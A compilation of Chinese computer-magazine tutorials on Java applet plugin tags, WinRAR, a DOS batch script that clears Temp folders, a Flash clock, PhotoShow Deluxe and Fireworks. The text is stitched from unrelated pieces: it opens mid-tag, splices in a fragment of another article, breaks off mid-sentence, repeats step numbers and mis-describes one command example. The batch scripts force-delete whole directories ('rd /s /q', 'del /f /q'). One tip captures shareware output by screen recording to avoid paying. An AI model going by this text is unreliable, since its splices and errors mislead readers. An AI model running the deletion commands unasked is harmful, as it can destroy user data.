codebase="http://java.sun.com/update/1.5.0/jinstall-1_5_0-Windows-i586.cab#Version=1,5,0,0"
width=480 height=384>
<param name="code" value="NewsApplet.class">
<param name = "type" value = "application/x-java-applet;jpi-version=1.5">
<param name="from" value="Prince Charming">
<param name="to" value="Cinderella">
</object>
```

当然，如果想写出可以适应所有浏览器的调用Java插件的代码，可以利用NN忽略<object>与<comment>标签，以及IE忽略<embed>标签的事实来个嵌套，类似于

```html
<object...>
<comment>
<embed...>
</embed>
</comment>
</object>
```

这样，无论是IE还是NN都会乖乖执行Applet并且让王子对灰姑娘说出那一个字了。

### 3. 升级情人节的Applet

现在是时候把情人节的Applet程序升级一下了，很简单，惟一要做的就是把原先index.htm代码中的如下部分进行修改:

```javascript
...
document.write('<applet code="NewsApplet.class" codebase="." width=480 height=384>');
document.write('<param name="from" value="' + from + '">');
document.write('<param name="to" value="' + to + '">');
document.write('</applet>');
...
```

修改后的代码为:

```javascript
...
document.write('<object classid="clsid:CAFEEFAC-0015-0000-0000-ABCDEFFEDCBA"codebase="http://java.sun.com/update/1.5.0/jinstall-1_5_0-Windows-i586.cab#Version=1,5,0,0" width=480 height=384>');
document.write('<param name="code" value="NewsApplet.class">');
document.write('<param name = "type" value = "application/x-java-applet;jpi-version=1.5">');
document.write('<param name="from" value="' + from + '">');
document.write('<param name="to" value="' + to + '">');
document.write('</object>');
...
```

注意，为了节约篇幅，这里仅仅给出了对应IE的ActiveX的代码。
当她在IE地址栏中输入包含你和她名字的URL时，她的浏览器便会如图1提示需要安装插件(见图1)。选择“是”，在接收许可证协议以后，插件就会自动从Sun的网站下载最新版的Java运行时环境(见图2)。





安装完毕之后她就能够看到你精心准备的礼物了，是不是一点都不麻烦？你可以通过http://www.cfan.com.cn/11program/200504/index.htm直接体验这个新版本的Applet。

### 4. Java插件技术的力量

Java插件技术是Java运行时环境中的一个重要组成部分，有了它的帮助，使得Applet找到了自己的绝世好搭档，将来的Applet可能会更倾向于采用这种基于浏览器插件的技术而不是<applet>标签。
此外，加入Swing技术的Applet功能更加丰富，如图3所示是一个加入Swing技术的Applet界面(见图3)。



要知道，只需要一个浏览器就能够得到这样的功能，而且是XP界面风格哦！如果哪个Blog能够提供这样强大的功能，相信它一定会是Blogger们不二的选择。

总之，Java插件技术的出现很大程度弥补了Java在桌面应用的不足。虽然Java仍然保持上升的应用趋势，但反观HTML中<applet>标签无奈地被慢慢淡忘，很大程度跟微软在桌面系统的市场垄断有关。如果桌面系统更加开放，Sun能够就此事理直气壮地说出“孙(Sun)叔很生气，后果很严重”，相信Java与.Net技术公平竞争的结果将会造就更完美的两个系统，而不是通过市场的手段去限制竞争技术。此乃一大憾事。

### 如果你觉得意犹未尽

- Sun公司基于Java插件技术的演示网页
  http://java.sun.com/products/plugin/1.5.0/demos/plugin/applets.html
  这些演示都附有源代码，你可以通过阅读源代码进一步进行学习。
- Sun公司官方对于浏览器标签的解释与问答
  http://java.sun.com/products/plugin/versions.html
  如果你需要完成一套跨浏览器的项目，这个文档能够很好地帮你完成这个任务。
- 在COM里面调用JavaBean？
  http://java.sun.com/j2se/1.4.2/docs/guide/beans/axbridge/developerguide/index.html
  没错，通过Java插件技术，Word和Excel中也能够调用JavaBean，Java又多了一种有趣的应用。

(北京 Gary Chan)

加到压缩文件"，然后在弹出窗口中的“压缩方式”中选择“存储”，并勾选“创建自解压格式压缩文件”项，同时在“压缩文件名”中输入"GreenMPC.exe"(不含引号)。
第二步：点击“高级”标签下的“自解压选项”，打开“高级自解压选项”窗口，在“常规”标签下的“解压后运行”中输入软件的主程序名即Mplayerc.exe。
第三步：点击“模式”标签，勾选“解包到临时文件夹”，并设置“安静模式”为“全部隐藏”，设置“覆盖方式”为“覆盖所有文件”(见图3)。
第四步：点击“文本和图标”标签，点击“浏览”按钮，选择软件所用的图标(不进行此步操作也不影响使用)。最后点击两次“确定”后，单文件的绿色软件就制作完成了。
(辽宁 小新 穿长靴的猫)

## WinRAR不只是压缩那么简单

只要你使用电脑，就一定会接触到压缩文件！如果从专业角度来说，压缩实际就是一种程序算法，通过这种算法，可以将一个大的文件像压缩饼干一样压缩得很小，从而节约出大量硬盘空间，当需要使用这个压缩文件时，再通过一种算法将文件数据还原（即解压）即可。现在网络上流行的压缩／解压缩软件有很多，最著名的要数 WinZip 和 WinRAR 了。其中，WinRAR 不但具有 WinZip 的大多数功能，而且独家提供了比 ZIP 具有更高压缩比的 RAR 压缩格式，从而后来居上，渐渐成为主流的压缩／解压缩软件。

### 菜鸟上手之任务篇

#### 任务一：50兆变10兆 大文件轻松网上传

任务描述：胶片厂的工作人员给林MM打来电话，说是一个TIF图片文件打不开，无法出胶片。胶片厂离杂志社的路很远，来回一趟得半天的时间，可那边印刷厂的人正急等着封面胶片呢，怎么办？最好的办法是从网上传过去，可是那个图片太大了，有57兆之多。看来只能用WinRAR压缩一下再传了。

第一步：双击桌面上“我的电脑”，接着双击打开图片文件所在文件夹。找到图片文件(本例中为design.tif)并右击它，这时弹出一个右键菜单。如果你的系统中已经安装好了WinRAR软件，则右键菜单中会有如图1所示的几个选项。



第二步：直接单击“添加到‘design.rar’”命令项(注意：命令项中的文件名是WinRAR根据所选文件自动提取出来的，随所选文件的不同而改变)即可开始压缩操作了，期间会有一个操作窗口显示压缩进度，结束后文件自动保存为“design.rar”，可以看到，文件由原来的57兆变成了13兆，压缩率够高的吧。如果选择的是“压缩到‘design.rar’并E‑mail”命令项，则压缩完成后会打开Outlook或OE邮件窗口，并自动将压缩文件放到附件中，只要简单地在收件人栏中输入接收方的E‑mail地址，发送就可以了。

第三步：对方收到你发送的压缩包文件后，如果他也安装了WinRAR，只要右击压缩包文件，从右键菜单中单击“解压到design\”命令项，即可自动在当前目录中建立一个名为design的文件夹并将文件解压在其中。

##### 小提示

- ★上面的方法能快速完成压缩文件的操作，但没有太多选择余地，如果你想对压缩选项进行更多设置，如：换一个文件名、换一种压缩格式、更改文件保存路径等，则需要选择“添加到压缩文件”命令项打开WinRAR参数设置窗口(见图2)，进行各项设置后单击“确定”按钮即可执行压缩了。
- ★可以将多个文件或文件夹压缩到同一个压缩文件中，配合Ctrl键或Shift键选中多个文件或文件夹后再右单击，然后选择相应命令即可。

##### 小提示

WinRAR安装后会默认在资源管理器右键菜单中增加自己的项目，但其中有些项目并不是你需要的，你可以打开WinRAR主窗口(从“开始→程序→WinRAR”打开，或直接双击某个RAR压缩包)，点击“选项→设置”，在弹出窗口中进入“综合”，单击“选择关联菜单项目”按钮，在打开的菜单中你可以选择在右键菜单显示的项目。

第二步：启动WinRAR打开它的主窗口，单击地址栏右侧的下拉按钮找到要压缩文件所在的分区(本例中为C盘)，在下面窗口中双击打开相应的文件夹(见图3)。

第二步：点选需要压缩的文件，再单击工具栏上的“添加”按钮打开参数设置对话框，进行各种设置后，确定即可。



#### 进阶实例1：一个压缩包太大，把它化整为零吧

实际工作中，经常会将一些大文件分割成多个小文件以便于数据传送或保存，比如在用Ghost克隆系统时没有设置分卷，结果得到一个近2GB大的镜像文件，现在想把它刻录到几张700MB大小的光盘上保存，这时就可以使用WinRAR的分卷压缩功能。

第一步：右击要分卷压缩的文件或文件夹(也可选取多个文件或文件夹之后再右击，本例选取的是“DDD.gho”)，然后从右键菜单中选择“添加到压缩文件”命令项打开参数设置窗口，输入压缩文件名后，点击“压缩分卷大小”下拉按钮，选择“650m - CD-650M”项(见图4)。当然，你也可以直接输入自己想要的大小，注意它上面的提示，单位是字节(Byte)，就是说想分解成10MB大小的文件，需要输入“10000000”，以此类推。



#### 进阶实例2：为文件加一把安全锁

如果你在网上传送非常私秘的数据，不希望被第三方看到，可利用WinRAR加密功能增加数据的安全系数。

第一步：在资源管理器中右击需要压缩加密的文件或文件夹，从右键菜单中选择“添加到压缩文件”命令项。

第二步：在参数设置窗口中单击“高级”标签，在单击其中的“设置密码”按钮，在打开的密码设置窗口中根据提示输入两遍密码(前后要一致)，点击“确定”按钮打包文件即可。在这个对话框中还有一个“加密文件名”的选项，如果不选这个选项，那么生成的加密压缩包能用WinRAR打开并显示出压缩包内的文件名，只是在解压缩时才要求输入密码；如果选中这个选项，那么只要一打开压缩包，就会要求输入密码，如果不知道密码，连压缩包内的文件名都看不到。

#### 任务二：一次压缩，随处可用

任务描述：虽然WinRAR很容易得到，但并不能百分之百地确定每个收到压缩包的人都安装有WinRAR，安全起见，林MM决定将文件打包成能自解压的压缩包，这样不管接收方是否装了WinRAR，他只要双击收到的压缩包就能自动运行解压了。

第一步：右击design.tif，选择“添加到压缩包”命令，在打开的参数设置窗口中，单击选中“压缩选项”中的“创建自解压格式压缩文件”项，压缩文件名会自动变成design.exe，点击“确定”按钮即可。

第二步：对方收到这个自解压文件后，只要双击design.exe就可以自动解开文件了。

#### 进阶实例1：制作DOS环境下的自解压文件

默认情况下，生成的自解压文件只能在Windows环境下运行。其实，WinRAR也能够生成运行在DOS下的自解压文件。

第一步：右击某一文件(或选择多个文件后再右击)，选择“添加到压缩包”命令项。

第二步：在参数设置窗口中，压缩文件格式默认设置为“RAR”，保持不变。在“压缩选项”中单击选中“创建自解压格式压缩文件”。

第三步：点击“高级”标签页，然后点击“自解压选项”按钮，在打开的“高级自解压选项”窗口中点击“模块”标签，然后在“选择自解压模块”下的列表中选择“DOS.SFX”项。最后点击“确定”按钮，这样生成的自解压文件包就能在DOS环境下执行了。

#### 任务三：给多媒体课件制作专业安装程序

任务描述：在本刊2005年第1期的“软件你别牛”中，曾教会大家如何在Authorware中制作多媒体相册的方法，要在别人的电脑中正确运行这个多媒体程序，就必须把相关的DII文件、xtras文件夹等内容随同主程序一同发布。现在我们就可以通过WinRAR制作一个安装程序，让每个想欣赏你多媒体作品的人都会觉得它很专业。本例完成的安装程序，不但能将所有文件拷贝到相应目录中，而且还会在桌面上建立一个快捷图标，双击即可运行多媒体软件了。

第一步：右击多媒体相册的根目录(该例中根目录为“dzxc”)，选择“添加到压缩包”命令项打开参数设置窗口，保持默认的压缩文件格式为“RAR”不变，在“压缩选项”中单击选中“创建自解压格式压缩文件”项。

第二步：点击“高级”标签，然后点击“自解压选项”按钮，在打开的“高级自解压选项”窗口中的“常规”标签中，在“解压路径”中输入“c:\temp”，同时选中下方的“保

#### 任务四：文档管理任我行

任务描述：WinRAR支持的压缩文件格式有很多，双击任一压缩包文件，即可在WinRAR的窗口中看到其中所包含的文档。除了压缩包文件，在WinRAR中还可以随意查看系统中各个磁盘上的内容，可以进行如运行程序、打开文档等多种文件操作，所以，我们也可以把WinRAR当作一个临时的资源管理器来用。

##### （1）文件查找及全文检索

WinRAR不仅能够在磁盘目录中查找文件，还能在各种压缩文件中查找相关文件。例如，我们要在C盘下的各个目录和压缩文件中查找 setup.exe。

第一步：启动WinRAR，点击工具栏上的“查找”按钮打开“查找文件”窗口，在“要查找的文件名”中输入“setup.exe”，在“磁盘和文件夹”中选择“C:”(见图6)。



第二步：点击“确定”按钮进行搜索，搜索的结果会出现在一个列表中，在列表窗口中双击可以打开文件进行查看，单击“定位”按钮可以快速切换到该文件所在的目录。

**小提示**
如果选中了“在文件中查找”项，然后在“要查找的字符串”中输入关键字，可以在文档内部进行全文检索。

##### （2）查看隐藏文件

在默认情况下，磁盘上有些内容是不允许用户查看的，比如C盘下的启动文件 boot.ini、系统文件夹、页面文件等。而在WinRAR中则可以让这些秘密一目了然，每个隐藏文件全部都显示出来。

注意：千万不要在WinRAR中误删这些文件！因为WinRAR中删除的文件是不放到回收站中的，很难恢复。

##### （3）随时备份重要文件

近来笔者硬盘有点不正常，为了防止辛辛苦苦写出来的稿件丢失，总是随时将“D:\稿件”目录压缩备份到U盘上去(盘符为K)。

第一步：在资源管理器中右击“D:\稿件”文件夹，选择“添加到压缩文件”命令打开参数设置窗口，单击“浏览”按钮，将保存路径设置为K盘(即我的U盘上)。单击“更新方式”下拉按钮选择“添加并更新文件”，这样每次就只备份内容有改动的文件，而不会重复备份没有改动的文件了。

第二步：单击“配置”按钮，选择“保存当前配置为新配置”打开配置参数窗口，将“配置名”改为“保存稿件”，同时选中“保存压缩文件名”、“保存选定文件名”和“在桌面创建快捷方式”项，连续单击两次“确定”按钮退出并进行第一次备份操作。

第三步：以后，当稿件文件夹中有变化的时候，随时双击桌面上的“保存稿件”快捷图标打开WinRAR窗口，按“确定”按钮就可完成新的备份。也可以点击“开始→设置→控制面板→任务计划”创建一个计划任务，根据向导提示设置后，可达到定时备份的效果。

**小提示**
如果不希望每次的备份文件覆盖上一次的备份，可在参数设置窗口中点击进入“备份”标签页，并勾选其中的“按掩码产生压缩文件名”项。

**你知道吗？**
WinRAR实际上只是RAR压缩软件的一个外壳，使得我们更容易使用RAR。在DOS时代，RAR并不是最早的压缩软件，当时，Pkzip、Arj等压缩工具都比RAR流行。当RAR推出2.0版本后(见图7)，人们惊奇地发现，它居然采取了窗口的工作方式，而且还支持鼠标操作，尤其是它的压缩比和压缩速度，更让用户刮目相看。也正是从这个版本开始，RAR才后来居上，逐渐成为广受喜爱的压缩工具。


### 老鸟支招

- ★自动创建多重结构目录
  在工作中，经常要建立一些结构相同的包含多个子目录的文件夹，比如《电脑爱好者》杂志每期都要建一个“初审稿”文件夹，里面又按照各小编的名字建立相应的子目录(如：“小特”、“小怪”、“Cornel”等)，每个小编的目录下又要按栏目建立多个子目录(如：“聪明用电脑”、“密技E卡通”等)。如此复杂的结构，如果每期都重新创建的话就会太繁琐了，所以小特首先建立了一个样板文件夹，把需要建立的目录包括子目录全部建好，然后把这些目录压缩成一个自解压的压缩包。当需要建立新一期的文件夹时，只要把这个自解压压缩包复制到指定文件夹中，再双击执行一下，就可以在这个文件夹下自动创建出所需的目录来。
- ★保护压缩文档不被删除或修改
  用WinRAR打开压缩包，选定某个文件后可以点击“删除”按钮将其删除；如果在压缩包内直接双击某个文件，也会调用相应的程序打开它，修改后的结果也能保存到压缩包中。因此，位于压缩包内的文件并不是非常安全的。如果要禁止别人删除或者修改压缩包内的文件内容，可以用WinRAR中打开这个压缩包，点击菜单“命令→保护压缩文件防止损坏”，在弹出的对话框中选中“禁止修改压缩文件”，点击“确定”按钮后，就会发现在这个压缩包中，WinRAR的“添加”和“删除”命令失效了。

(河北 老周)

## DOS快餐店(一)

时至今日，系统早已经全面进入Windows时代，甚至很多刚接触电脑的朋友都已经不知DOS为何物了。不过，即便是在Windows系统中，熟练地掌握各种DOS命令及其批处理的编写仍能帮助我们解决许多在窗口环境下非常棘手的问题。从本期开始为大家带来DOS快餐店，希望大家多多光顾，早日成为DOS“大虾”。

### 本期任务：自动清除Windows 2000/XP/2003多用户系统临时文件夹 Temp 的临时文件

维克托来到小菜家作客，可没想到刚一进门，小菜就近乎“扑”过来地哭诉起来：“我的C盘空间怎么越来越少了，刚才又提示虚拟内存不够了！”维克托笑而不答，坐到了小菜的电脑前，熟练地打开了“我的电脑”，并迅速转换到了小菜的临时文件目录，清空了其中的垃圾文件。一系列的动作看得小菜都花了眼，景仰之情溢于言表。反复几次试验后，小菜学会了清空临时文件。

（几天后）维克托还在睡梦中，就被小菜的电话吵醒了。“又怎么啦？”维克托睡眼惺忪地问道。“每回都要那样清空临时文件，太麻烦了啦。”小菜委屈地说。这就是维克托接到的第一个DOS任务，下面让我们来看看他是如何解决的。

### 任务分析：

Windows 2000/XP/2003都属于多用户操作系统，每个用户的临时文件夹(通常位于“C:\Documents and Settings\<User Name>\Local Settings\Temp”，其中<User Name>应替换为该用户的用户名)都会积累许多不再使用的临时文件，逐一删除显得非常麻烦，通过批处理能自动执行清空操作。

第一步：打开“记事本”，输入下列内容并保存为ClearTmp.bat，放置在C:\WINDOWS\system32\GroupPolicy\UserScripts\Logon(推荐放置在此目录，但其他目录也可)：

```batch
@echo off
cd %Temp%
for /d %%d in (*) do rd /s /q "%%d"
del /f /q *.*
```

这段脚本的大意是：将当前目录定位到当前登录的用户所对应的临时文件夹，删除其下所有子文件夹和文件。

第二步：单击“开始→运行”，输入“gpedit.msc”(不含引号)回车，打开“组策略编辑器”。

第三步：在左侧的树状分支中选择“用户配置→Windows设置→脚本-(登录/注销)”，双击窗口右侧的“登录”。

第四步：点击“登录属性”窗口中的“添加”按钮，在“添加脚本”窗口点击“浏览”按钮并在文件选择框中选择ClearTmp.bat，点击“打开”，依次点击“确定”直至关闭“组策略”窗口。

现在点击“开始→注销”，注销后重新登录，即可实现自动清空临时文件夹了。

## 本期命令配料

### 1. echo命令

(1) 功能：打开或关闭命令回显（即命令运行时的显示）/ 显示信息
(2) 语法：echo [on|off] [message]
(3) 参数：
- on 打开命令回显。
- off 关闭命令回显。
- message 指定要显示的文本（例：执行“@echo This is a ECHO command.”，显示“This is a ECHO command.”）。
(4) 特殊用法：“echo”不带任何参数将显示当前回显设置。“echo.”显示一个空行。

### 你知道吗

**@echo off和echo off的区别**
@echo off表示执行了这条命令后关闭所有命令（包括本身这条命令）的回显，而echo off命令则表示关闭它后面所有命令（不包括本身这条命令）的回显，“@”的作用就是关闭紧跟其后的一条命令的回显。

#### (5) 使用范例

将下列代码保存为test.bat后放在C:\下，然后点击“开始→运行”，输入CMD回车，在命令行方式下键入“c:\test.bat”（不含引号）。

```
@echo off
echo.
echo This is the Computer Fans.
echo.
echo We are very like it.
echo.
```

上面代码的运行结果

### 2. cd(chdir)命令

(1) 功能：显示当前目录的名称或更改当前目录
(2) 语法：cd [/d] [drive:][path][..]
(3) 参数：
- /d 更改当前驱动器或驱动器的当前目录（例：“cd /d f:\mypath”将当前驱动器更改为f:盘，目录更改为mypath）。
- [drive:][Path] 指定要改为的驱动器和目录（例：使用命令“cd f:\mypath”将驱动器f:上的当前目录设置为mypath；或者使用命令“cd f:”将当前驱动器设置为f:）。
- .. 要从子目录切换到它的上级目录（例：“cd ..”或“cd..”）。
(4) 特殊用法：“cd”不带任何参数将显示当前驱动器和目录（目录的名称）。“cd\”更改到根目录。

### 小提示

- 实模式DOS（即“纯DOS”）和Windows 98的MS-DOS命令行不能使用参数“/d”。
- “故障恢复控制台”提示符下不能使用“cd\”命令更改到根目录，必须使用“cd ..”命令（cd与..之间无空格）。
- “故障恢复控制台”命令提示符不能使用“cd..”（cd与..之间有空格）命令。
- 当使用“cd f:\mypath”命令执行后并不立即切换当前驱动器（如当前驱动器为e:，执行此命令后当前目录仍为e:），必须接着使用命令才能将当前目录切换到f:\mypath，或者使用在命令参数前添加更改的驱动器，例如：
    ```
    cd f:\mypath
    copy f:*.* d:\
    ```
    上面的命令将f:\mypath下的所有TXT文件都复制到d:\中了，“f”与“*.*”之间没有使用“\”即表示切换至f的当前目录（即上一句“cd f:\mypath”设置的当前目录）中。

#### (5) 使用范例

```
@echo off
cd e:\myfolder
move e:*.* f:\
```

(维克托电脑工作室 张宗闽)

---

ClearTmp.bat批处理文件不能用于“组策略”的“计算机配置→Windows设置→脚本→(启动/关机)”，因为“启动/关机”事件时所需的系统变量尚未指定（%TEMP%指定当前登录用户的临时文件目录，而此时并无用户登录），系统因无法找到“%Temp%”变量所指定的目录，则删除当前目录下的所有文件（警告：可能导致大量数据被误删除！）。

不能在命令行方式下简单地使用“rd /s /q %Temp%”命令删除临时文件，否则可能因为某个程序正在使用Temp目录下的文件而导致命令执行失败，甚至与程序产生冲突造成不可预料的错误。

系统临时文件夹（通常位于C:\WINDOWS\Temp）不能使用“%Temp%”变量来清除临时文件，而应明确指定路径，如：
```
@echo off
C:
cd Windows\Temp
for /d %%d in (*) do rd /s /q "%%d"
del /f/q *.*
```
同样保存为ClearTmp.bat放置在C:\WINDOWS\system32\GroupPolicy\Machine\Scripts\Startup目录下，参考上文的步骤在“组策略编辑器”的“计算机配置→Windows设置→脚本→启动”中添加这个脚本文件，电脑在每次启动时自动清除系统临时文件。

---

## 打造超酷 Flash 桌面小时钟

电脑桌面就像是我们的办公桌，在上面放个记事本、日历等小工具，可以极大地方便工作。今天我就教大家制作一个自己的桌面工具——Flash桌面小时钟，它可以形象、精确地显示当前时间，还能起到装饰桌面的作用，并且它具有透明效果，不会太影响桌面上的其他操作。本例所涉及到的素材、Flash源文件、最终动画文件，可在http://www.newhua.com/cfan/200504/clock.rar处下载。

第一步：启动Flash MX 2004，新建一个空白Flash文档，点击属性面板中的“大小”按钮，将文档大小设置为320×320像素。

第二步：点击菜单命令“插入→新建元件”（或按Ctrl+F8组合键）打开创建新元件窗口，将元件的“名称”设置为“hour”，“行为”设置为“影片剪辑”，单击“确定”按钮后进入该元件编辑窗口。点选工具箱中的线条工具，并在其属性面板中将笔触大小设置为8，然后以hour元件编辑窗口的轴点（即十字交叉点处，元件对象旋转的时候将以它为中心点）为起点，向上画一条直线作为时针的图形。本例中的时针只是一条简单的直线，大家可以根据自己的喜好设计不同风格的时针，但是一定要注意将时针下方的端点与轴点对齐，否则时针在旋转时会很不规则。

按照同样方法创建元件“minute”（分针）及“second”（秒针）。一般时针最短、分针比较长、而秒针最长也最细。注意，应将秒针的轴点稍往上移动一些，这样做出来的效果才会好看。

第三步：在Photoshop（或其他图像处理软件）中制作一个简单的表盘图像，当然，你可以自己绘制或使用搜集来的其他图片，制作出更酷的表盘图像来。准备好图像后，在Flash中点击菜单命令“文件→导入→导入到库”。

第四步：点击编辑条上的“场景1”回到主场景中，点击3次“插入图层”按钮再增加3个图层。按Ctrl+L键显示出库面板，依次将导入的表盘图像以及前面制作的时针、分针、秒针等元素拖放到场景中相应图层的第1帧中。将时针、分针、秒针的长度进行适当调整，并尽量将它们的轴点与图像的中心点对齐。

第五步：下面就该编写相应的ActionScript代码了，不用担心，它们非常简单。使用黑箭头选择工具点选场景中的秒针图形实例，然后在下方点击展开“动作-影片剪辑”面板，输入以下代码：
```
onClipEvent(enterFrame){
var Time = new Date();
_rotation = 6*Time.getSeconds();
}
```
点击分针图形实例，并输入以下代码：
```
onClipEvent(enterFrame){
var Time = new Date();
_rotation = 6*Time.getMinutes();
}
```
点击时针图形实例，并输入以下代码：
```
onClipEvent(enterFrame){
var o_Date = new Date();
var Hours = o_Date.getHours();
if (Hours > 12) Hours -= 12;
_rotation = Hours*30 + o_Date.getMinutes()/2;
}
```
按Ctrl+S键保存好FLA源文件，再按Ctrl+回车组合键欣赏一下自己的作品吧，果然它跟电脑上的系统时间是完全同步的。上面代码中的getSeconds、getMinutes、getHours函数，大家顾名思义也能猜出它们是用来获取系统时间的秒、分、时的。

第六步：至此，Flash动画时钟就制作完成了。首先在“文件→发布设置”中勾选所需的项目（如：SWF、HTML、EXE等），再通过“文件→发布”命令生成所要的文件即可。大家还可以去www.binarynoise.com下载一款名为mProjector的软件，它也可以将Flash动画转换为EXE可执行文件，与Flash MX 2004本身所产生的EXE文件不同，mProjector能输出透明背景动画（在Windows 2000/XP上有效），可以屏蔽Flash所带的右键菜单，还可以定义自己的程序显示图标，非常适合做一些桌面的小装饰软件。下载安装好后启动mProjector，点击工具栏上的“OPEN”按钮打开前面所制作生成的SWF动画文件，再单击“BUILD AS”按钮保存文件就可以了。

双击生成的EXE文件即可运行桌面小时钟了。右击它，再选择“Always Below Other Windows”命令，可将它置于桌面最底层，这样就不会影响别的窗口显示；右击它，再选择“Close”命令则可以关闭桌面小时钟。

(湖南 孤独笑)

---

## 让照片“秀”出不一样的风采

随着数码相机的普及，积累的数码照片也越来越多了，如何在不花太多时间和精力的情况下，又能让自己在照片秀出与众不同的效果呢？那就请PhotoShow Deluxe来帮忙吧，它是一款多功能的照片处理工具，只需要简单的几个步骤就可以产生十分个性化的“照片秀”效果。

- 软件版本: 3.0
- 软件大小: 426KB
- 软件性质: 共享软件
- 适用平台: Windows 9x/Me/2000/XP
- 下载地址: http://www.newhua.com/soft/18445.htm
- 软件备注: 这里提供的是安装程序，安装时需在线下载。完整版大小近20MB，无需在线安装，大家可以在网上搜索。

### 实例1：旋转的扑克照

PhotoShow Deluxe可将照片与三维物体融合，产生妙趣横生的视频动画。我们需事先将准备好的照片复制到PhotoShow Deluxe默认的图片收藏目录“C:\My Documents\My Pictures\Nature”（“Nature”是安装PhotoShow Deluxe时，自动在系统的“图片收藏”下建的子目录，它的路径会随着系统的不同而有所不同）中备用。

第一步：启动PhotoShow Deluxe后，单击“Make”按钮进入制作窗口，这里列出了软件可完成的8种任务，单击选择“Photo Gifts”进入该项任务的子窗口。

第二步：单击“Playing Cards”项，软件会在我们内置的图片收藏夹中选择图片，在左侧窗口中单击“Nature”，在右侧窗口单击选择前面准备好的照片，然后点击“Done”按钮进入下一步。

第三步：可以在预览窗口中看到选中的照片已经变成了一副不断旋转着的扑克牌的背面了。可以单击照片窗口下面的“Crop”按钮对照片进行简单的剪裁操作。

小提示：选择的照片最好是竖版的，如果是横幅照片则会出现扭转90度放置的情况。另外，由于该软件剪裁工具的选框始终保持原始图片的长宽比，如进行一些特殊剪裁需借助其他图像处理软件重新调整图片的长宽比。

第四步：由于PhotoShow Deluxe是共享软件，若要保存制作好的视频动画需要上网付费才行。其实，可以借助一些屏幕抓取软件将PhotoShow Deluxe预览框中的动画效果“免费”捕获下来。下面以抓图软件SnagIt为例简要介绍一下方法。

（1）启动SnagIt，点选“录制一个屏幕视频”项，然后单击右上角“捕获”按钮，这时光标会变成一个手的形状，用它画出一个抓取区域（这里自然选的是PhotoShow Deluxe的动画预览区了）后，又会弹出一个对话框，单击其上的“开始”按钮开始屏幕连续捕获。

（2）当预览演示完，双击系统托盘中的SnagIt图标，从打开的窗口中单击“停止”按钮。这时将显示出SnagIt的主界面，单击工具栏上的“完成（文件）”按钮，在弹出的保存对话框中将抓取的视频保存为AVI动画文件即可，现在就可以与朋友一起分享你的杰作或将它作为制作其他多媒体作品的素材了。

### 实例2：水杯上的靓照

在“Photo Gifts”里，还有将照片作为贴图做成个性化杯子或T恤的模板，效果十分奇妙，我们选杯子模式来看一看。

第一步：在“Photo Gifts”的子窗口中点击“Mug”（杯子）项，在内置图片收藏夹中选择图片，单击“Done”按钮进入制作窗口。

第二步：在效果预览窗口里，可以看到选中的照片已经作为贴图融合在一个杯子上面。可以单击“Crop”按钮剪裁所选图像，还可以用鼠标在预览窗口中随意拖拉以调整视角。

第三步：最后依前例的方法进行视频动画捕获完成作品。

### 实例3：数码照片上的动画小贴士

PhotoShow Deluxe还有一点与众不同的地方，它内置了大量透明背景Flash动画素材对象，我们可以将这些活泼有趣的小东东添加到照片中，做成一本动画电子相册。

---

## Fireworks——焰火中的美丽

### 实例一：鸡（吉）祥如意邮票小制作

今年是鸡年，由于“鸡”与“吉”同音，今年对于广大读者来说一定是个吉祥年。这里，笔者特地用Fireworks MX 2004（以下皆简称为Fireworks）制作了一个“鸡（吉）”祥如意的邮票，希望能把祝福送给亲爱的读者朋友们。

第一步：启动Fireworks，点击“文件→新建”菜单命令打开新建文档窗口，将画布的宽度和高度都设置为400像素，单击“画布颜色”下方的颜色按钮，在弹出的色彩调板中将背景颜色设置为浅蓝色（#0099FF），其他取默认值，最后单击“确定”按钮打开Fireworks的工作界面。

第二步：在工具箱的“矢量”区中，单击选中矩形工具；接着在“颜色”区中单击铅笔图标，再单击下面的“没有描边或填充”图标（即中间有一红色斜杠的图标），这样画出来的矩形就不会带有黑色边框了；单击“颜色”区中颜料桶图标右侧的填充色按钮，在弹出的色彩调板中点选白色作为填充色；设置好后，拖动鼠标在工作区内画出一个宽和高都为350像素，填充色为白色，无笔触边框的矩形来做为邮票的衬底。

在画矩形的时候不太容易精确控制宽和高的长度，可在画好矩形后，再在其属性面板的“宽”和“高”框中输入精确的长度数值。画好矩形后，单击工具箱中“选择”区的指针工具（即黑箭头图标），用它拖动矩形到正中间的位置。

第三步：按住矩形工具右下方的小三角，从弹出的子工具箱中选择椭圆工具，然后按住 Shift 键不放并拖动鼠标画出直径为 15 像素的正圆形。为了方便下面的操作，可将圆形的填充色改为红色，确保圆形为选中状态，单击“颜色”区中的填充色按钮，并从弹出的色彩调板中点选红色即可。按下 Ctrl+C 键复制此圆，再 Ctrl+V 键粘贴，复制粘贴出的圆形会与原来的圆形重叠在一起，可以用指针工具将它们拉开，如此反复复制粘贴多次，将最后得到的所有圆形及中间的大矩形摆放如图1中所示的样子。

小提示
在移动复制的圆形时，可通过小键盘上的方向键对其位置进行微调，同时按下 Shift 键可以加快微调的速度。另外，复制并放置好四、五个圆形后，可按下 Shift 键并一一点击选中所有的圆形，然后再进行复制粘贴操作，这样就可以复制得快些。

第四步：按下 Ctrl+A 键全选工作区内所有的图形，接着再按住 Shift 键不放并点击中间的矩形从而取消对矩形的选择，这时我们就只选中所有的圆形了，执行“修改→组合路径→接合”菜单命令（或按 Ctrl+J 组合键）将这些圆形组合成一个完整的路径。然后再按住 Shift 键并点击选中矩形，执行“修改→组合路径→打孔”命令，所有的圆形都消失了，而这个矩形的四周都被打上了小孔，就像现实邮票的锯齿边缘一样。

第五步：执行“文件→导入”命令打开导入对话框，选取我们事先准备好的公鸡素材图片（本文所涉及素材及源文件可从 http://www.newhua.com/cfan/200504/fireworks.rar 处下载），这时鼠标会成为一个直角形，在想插入图片的位置单击就会将图片导入了，如果导入的图片过大或过小，可以点击工具箱“选择”区中的缩放工具，然后拖动图片四周的控制点即可调整其大小。

第六步：点击工具箱“矢量”区中的文本工具（“A”字图标），在适当位置点击并输入文本“鸡祥如意”，每输入一个字就按一下回车键，这样可达到竖排文字的效果，选中文字后，可在其属性面板中设置字体、字号、行高等多种属性。为了给文字加上一些特殊效果，可先执行“文本→转换为路径”命令将文字转换成矢量路径，然后用指针工具点选文字，再在属性面板的填充选项中选择“渐变→波浪”，再点击颜色按钮，将渐变色改为由黄到红的渐变。接下来点击属性面板中“效果”右侧的“+”号，选择“斜角和浮雕→内斜角”，为字体加上好看的滤镜效果。

Just Do It
